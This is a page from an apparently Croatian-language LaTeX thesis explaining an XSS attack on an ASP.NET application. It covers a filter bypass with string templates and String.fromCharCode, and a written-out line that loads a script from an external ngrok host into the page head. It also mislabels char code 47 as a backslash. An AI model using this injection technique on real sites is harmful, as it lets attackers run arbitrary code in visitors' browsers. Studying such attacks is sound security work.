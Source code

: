 \documentclass[12pt, oneside, onecolumn]{book}
\begin{document}
{Još jedno svojstvo string template-a je da ono miče potrebu za korištenjem zagrada prilikom pozivanja funkcija, što se vidi na sljedećoj slici \ref{fig:asp_stf}.

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=0.7\textwidth]{asp_stf.jpg}
		\caption{Primjer pozivanja funkcije bez korištenja zagrada} \label{fig:asp_stf}
	\end{center}
\end{figure}

Pošto je izvršavanje proizvoljnih JavaScript komandi unutar URL-a složeno, napadač može napraviti XSS napada u URL-u kojim se učitava proizvoljna skripta u kojoj se mogu koristiti bilo koji znakovi, čime se olakšava iskorištavanje ove ranjivosti. Skripta koju ovaj XSS napad učitava se nalazi na adresi \texttt{http://0a502018ca98.ngrok.io/ASP}. Ova skripta sadrži jednostavan kod prikazan na slici .

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=0.5\textwidth]{asp_scpt.jpg}
		\caption{Skripta koju učitava XSS napad} \label{fig:asp_scpt}
	\end{center}
\end{figure}

Navedena skripta ispisuje na konzoli \texttt{ASP. NET XSS napad}. Nakon što je kreirana skripta, potrebno je postaviti njezin \texttt{src} atribut na vrijednost \texttt{//0a502018ca98.ngrok.io/ASP}, što se postiže kodom \texttt{js.src='//0a502018ca98.ngrok.io/ASP'}. Međutim, kako je znak \texttt{\textbackslash} zabranjen, umjesto njega koristimo izraz \texttt{\${String.fromCharCode`47`}} unutar string template-a, koji generira znak \texttt{\textbackslash}. Kreiranu skriptu stavljamo unutar \texttt{head} elementa, što se vidi na slici \ref{fig:asp_head}.

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=\textwidth]{asp_head.jpg}
		\caption{Dodavanje skripte u head element} \label{fig:asp_head}
	\end{center}
\end{figure}

}
\end{document}
